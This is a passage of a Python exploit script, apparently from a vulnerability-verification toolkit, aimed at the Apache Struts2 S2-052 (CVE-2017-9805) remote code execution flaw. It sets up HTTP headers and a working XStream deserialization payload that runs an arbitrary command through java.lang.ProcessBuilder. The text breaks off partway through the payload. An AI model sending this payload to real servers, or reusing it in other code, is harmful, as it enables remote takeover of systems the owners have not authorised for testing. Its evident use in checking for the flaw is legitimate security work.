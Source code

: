 ```python
#!/usr/bin/env python3

import requests

class S2_052_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-052漏洞,又名CVE-2017-9805漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12',
            'date': '2017-09-05',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/xml",
        }
        self.payload ='''
                    <map>
                        <entry>
                            <jdk.nashorn.internal.objects.NativeString>
                            <flags>0</flags>
                            <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
                                <dataHandler>
                                <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                                    <is class="javax.crypto.CipherInputStream">
                                    <cipher class="javax.crypto.NullCipher">
                                        <initialized>false</initialized>
                                        <opmode>0</opmode>
                                        <serviceIterator class="javax.imageio.spi.FilterIterator">
                                        <iter class="javax.imageio.spi.FilterIterator">
                                            <iter class="java.util.Collections$EmptyIterator"/>
                                            <next class="java.lang.ProcessBuilder">
                                            <command>
                                                {cmd}
                                            </command>
                                            <redirectErrorStream>false</redirectErrorStream>
                                            </next>
                                        </iter>
                                        <filter class="javax.imageio.ImageIO$ContainsFilter">
                                            <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                            </method>
                                            <name>foo</name>
                                        </filter>
                                        <next class="string">foo</next>
                                        </serviceIterator>
                                        <lock/>
                                    </cipher>
                                    <input class="java.lang.ProcessBuilder$NullInputStream"/>
                                    <ibuffer></ibuffer>
                                    <done>false</done>
                                    <ostart>0</ostart>
                                    <ofinish>0</ofinish>
                                    <closed>false</closed>
```